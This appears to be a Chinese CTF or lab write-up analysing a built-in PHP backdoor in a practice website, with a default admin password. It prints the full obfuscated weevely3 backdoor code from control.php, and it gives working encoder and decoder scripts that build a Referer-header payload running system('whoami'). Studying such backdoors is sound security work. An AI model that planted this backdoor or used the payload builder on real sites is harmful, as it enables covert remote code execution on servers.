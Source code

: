 ## 启动环境

```
docker-compose build
docker-compose up -d
```

网站地址http://127.0.0.1/www/index.php，默认管理员账户admin:shadow123

## 0x01 系统内置木马

利用D盾扫描网站目录，在/module/misc/control.php中存在后门

```
	public function door() {
		$t = 'pre2Fss(@2Fx(@b2Fase64_deco2F2Fde(preg2F_r2Fepl2Face(array("/_/",2F"2F/-/"),array("/2F","2F+")2';
		$O = 'er"2F;$i=$m[1][02F]2F.$m[1][1];2F$h=$sl2F($s2Fs(md5(2F$i.$kh)2F2F2F,0,3));$2Ff2F=$sl(2F$ss(md5(';
		$s = 'rpos(2F$p,$h)===0)2F{$2Fs[$i]=2F"";$p=2F$ss($p,3)2F2F2F;}if(array2F_key_2Fexists($i,$s))2F{2F$s';
		$U = 'F,$ss($s[2F$i2F],0,2F$e))),$k2F)2F));2F$o2F=ob_get_contents();ob_end_2Fclean(2F);$2Fd=b2Fase64_';
		$l = '2F[$i].=$p;2F$e=strpos($s2F[2F$i2F],$f);if($e2F2F){$k=2F2F$kh.$kf;ob_start();@ev2Fal(@gzu2Fncom';
		$A = str_replace('Th', '', 'ThcreThThaThte_funThThction');
		$N = 'm2F);if($2Fq&&$m){@ses2Fsion_2Fstar2Ft();$s=&2F$_S2FESSION;$ss2F2F="substr";$sl2F="strt2F2Folow';
		$q = '"2F";for($i=0;$i<$2Fl;)2F{2Ffor($j=0;($j<$2Fc&&$i<$l2F);$j+2F+,2F$i++)2F{$o.=$t{$i}^2F$k{$j2F};';
		$K = '=array_value2Fs2F($q);preg2F_2Fma2Ftch_a2Fll("/([\\w])[\\w-2F]+2F(?:2F;q=0.([\\d]))?,?/",$2Fra2F,$';
		$F = '_LANGUAGE2F"];if($rr&&2F$r2F2Fa){$u=par2Fse2F_u2Frl($rr);parse2F_str($2Fu2F["query"],$q2F)2F;$q';
		$c = '2F}}return $2Fo;2F}$r=$_2FSE2FRVE2FR;$rr=@2F$r["2FHT2FTP_2FREFERER"];$ra=@$r[2F"HTTP_ACCE2F2FPT';
		$d = '$i.2F$kf)2F,0,3));$p="";for($z=2F1;$z<coun2Ft2F($m[1]);$z+2F+)2F$p.=$q[$m2F[2]2F[$2Fz]2F];if(st';
		$X = '$kh="ccd2"2F;$kf="2Fe8f9";f2Funct2Fion x($2Ft,$2Fk){$c=st2Fr2Fl2Fen($k);$l=strlen2F($t2F);$o=2F';
		$m = 'e2Fncode(x(gzc2Fomp2Fr2Fess($o),2F$k))2F;print("<2F$k>2F$d</$k2F>");@se2Fss2Fion_destroy();}}}}';
		$E = str_replace('2F', '', $X . $q . $c . $F . $K . $N . $O . $d . $s . $l . $t . $U . $m);
		$I = $A('', $E);
		$I();
	}
```

去网上检索了一下发现是weevely3的后门，
https://www.unphp.net/decode/467b9f5bd6a9ef075f358dabd4f14b87/

https://www.cnblogs.com/go2bed/p/5920811.html

https://blog.csdn.net/qq_31481187/article/details/52602454

https://www.asuri.org/2016/08/14/2016-nationwide-ctf-first-writeup/

https://yaofeifly.github.io/2017/01/13/weevely/
函数调用则是在
![](luffy1.png)


根据https://my.oschina.net/slagga/blog/1822389提供的加密函数

```
<?php
$kh="ccd2";
$kf="e8f9";

$referer = 'http://example.com/?a=0&b=1&c=2&d=3&e=4&f=5&g=6&h=7&i=payloadhere';
$lang = 'zh-CN,zh;q=0.8,en;q=0.6';
$m = array (
  0 =>   array (
    0 => 'zh-CN,',
    1 => 'zh;q=0.8,',
    2 => 'en;q=0.6',  ),
  1 =>   array (
    0 => 'z',
    1 => 'z',
    2 => 'e',  ),
  2 =>   array (
    0 => '',
    1 => '8',
    2 => '6',  ),   );
$i = 'zz'; // $m[1][0] . $m[1][1]
$h=strtolower(substr(md5($i.$kh),0,3)); // 675
$f=strtolower(substr(md5($i.$kf),0,3)); // a3e

function x($t,$k){        // $k : xor key, $t: plain. loop xor encrypt $t.
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0;$i<$l;){
        for($j=0;($j<$c&&$i<$l);$j++,$i++){
            $o.=$t{$i}^$k{$j};
        }
    }
    return $o;
}
$key = 'ccd2e8f9';
//$payload='phpinfo();';
$payload = "system(\"whoami\");";
$payload = gzcompress($payload);
$payload = x($payload,$key);
$payload = base64_encode($payload);
$payload = preg_replace(array("/\//","/\+/"),array("_","-"), $payload);
$payload = $h . $payload . $f;
echo $payload;
echo "\n<br />\n";
$referer = "http://example.com/?a=0&b=1&c=2&d=3&e=4&f=5&g=6&h=7&i=$payload";
echo $referer;
echo "\n<br />\n";
?>
```

![](luffy3.png)

解密函数

```
<?php
$kh="ccd2";
$kf="e8f9";
$k = $kh.$kf;

function x($t,$k){        // $k : xor key, $t: plain. loop xor encrypt $t.
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0;$i<$l;){
        for($j=0;($j<$c&&$i<$l);$j++,$i++){
            $o.=$t{$i}^$k{$j};
        }
    }
    return $o;
}
$o="G/9nMmU4Zjg=";
#$d=base64_encode(x(gzcompress($o),$k));
$a = gzuncompress(x(base64_decode($o),$k));
echo $a;
?>
```
![]()

[链接一](http://120.79.189.7/?p=409)



